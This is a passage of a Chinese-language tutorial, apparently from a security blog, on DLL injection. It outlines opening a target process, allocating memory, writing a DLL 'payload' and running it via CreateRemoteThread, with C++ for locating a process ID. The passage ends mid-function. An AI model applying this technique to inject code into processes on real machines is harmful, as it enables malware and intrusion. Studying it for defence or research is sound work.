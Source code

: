 ```cpp
                    break;
            case DLL_THREAD_DETACH:
                    break;
            case DLL_PROCESS_DETACH:
                    break;
            }
    return TRUE;
}
```

注入payload至进程中
-------------

创建好DLL后，接下来就是将DLL注入至目标进程并运行起来。注入操作分为几个部分（思路）：

- 找到目标进程并打开  
    Win32API提供了`OpenProcess()`函数，但在其参数中需要指定pid，没有现成的获取pid函数，自己构造呗~，利用`CreateToolhelp32Snapshot()`将目前进程镜像拷贝，再遍历名称得到pid，有了pid那就可以打开目标进程了
- 在进程中分配空间写入DLL  
    分配和写入可通过`VirtualAllocEx()`和`WriteProcessMemory()`实现
- 创建线程执行载入操作  
    创建线程可以通过`CreateRemoteThread()`实现

### 1 找到目标进程并打开

Win32Api提供了`OpenProcess()`函数用于打开进程，[OpenProcess | Microsoft Docs](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) 声明如下：

```cpp
HANDLE OpenProcess(
    DWORD dwDesiredAccess,
    BOOL  bInheritHandle,
    DWORD dwProcessId
);
```

- dwDesiredAccess指定进程对象的访问权限，具有[这几种](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights)，PROCESS\_ALL\_ACCESS表示所有访问权
- bInheritHandle设置继承属性，False表示不继承
- dwProcessId指的是进程标识符pid

本例中的调用如下：

```cpp
pHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)(pid));
```

PID的获取则可以通过之前介绍的`FindTarget()`函数：参考之前文章

```cpp
int FindTarget(const char *procname) {
        HANDLE hProcSnap;
        PROCESSENTRY32 pe32;
        int pid = 0;   
        hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
        if (INVALID_HANDLE_VALUE == hProcSnap) return 0;      
        pe32.dwSize = sizeof(PROCESSENTRY32);        
        if (!Process32First(hProcSnap, &pe32)) {
                CloseHandle(hProcSnap);
                return 0;
        }        
        while (Process32Next(hProcSnap, &pe32)) {
                if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                        pid = pe32.th32ProcessID;
                        break;
                }
        }      
        CloseHandle(hProcSnap);              
```